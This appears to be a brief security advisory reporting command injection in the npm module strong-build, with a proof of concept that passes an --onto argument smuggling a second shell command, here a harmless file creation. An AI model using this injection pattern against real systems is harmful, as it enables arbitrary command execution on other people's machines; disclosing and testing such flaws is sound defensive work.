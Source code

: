 # Description

The `strong-build` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Check there aren't files called `HACKED` 
2. Execute the following commands in another terminal:

```bash
npm i strong-build -g # Install affected module
sl-build --onto '";touch HACKED; #' #  Run the PoC
```
3. Recheck the files: now `HACKED` has been created
